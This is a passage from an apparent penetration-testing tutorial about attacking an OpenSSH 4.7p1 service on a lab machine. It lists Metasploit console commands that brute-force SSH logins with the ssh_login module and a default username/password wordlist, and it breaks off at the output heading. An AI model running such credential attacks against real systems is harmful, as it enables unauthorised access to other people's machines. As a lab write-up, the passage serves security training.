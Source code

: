 From the output we get that the target machine uses both password and private key based authentication. Also we get info about the algorithm used by the ssh-server like rsa,dss which are quite weak and outdated encryption algorithms.But We can conclude a direct vulnerability from here. Now search for vulnerability in this ssh version(Openssh-4.7p1) on internet, search openssh-4.7 exploit, here we found that it has a **user code execution vulnerability** which allow us to execute command on the remote server after getting an ssh connection with the target server and its corresponding exploit is present in the metasploit exploit db module.

### Exploitation:
To exploit/attack the ssh service i.e to get the ssh connection to the target we have two methods:

1. **Bruteforcing the ssh with username and passwords.**
2. **Using key based authentication.**

#### 1. Bruteforcing the ssh with username and passwords**:
**--> Using /auxiliary/scanner/ssh/ssh_login** module
 As we know the target ssh services allows password based authentication. So we can bruteforce the login attemps using a wordlist. For this we have an auxiliary module in the metasploit framework. Let start the attack
 ```
#Start the metasploit cli
msfconsole
#search for the auxiliary module
msf > search ssh_login
msf auxiliary(scanner/ssh/ssh_login) > use auxiliary/scanner/ssh/ssh_login
#check for the fields
msf auxiliary(scanner/ssh/ssh_login) > show options
set RHOST 192.168.1.103
#setting the userpass custom wordlist of metasploit
msf auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlist/userpass.txt
msf auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCESS true
msf auxiliary(scanner/ssh/ssh_login) > set USER_AS_PASSWORD true
msf auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
msf auxiliary(scanner/ssh/ssh_login) > exploit
```
Now this module will brute force the ssh login with the wordlist and if there is a match we get the username and password for that ssh server.We get them easily, if it has default crudential or weak password. If this doesn't get the result parameter create your custom wordlist as per you target info and use them.
**Output**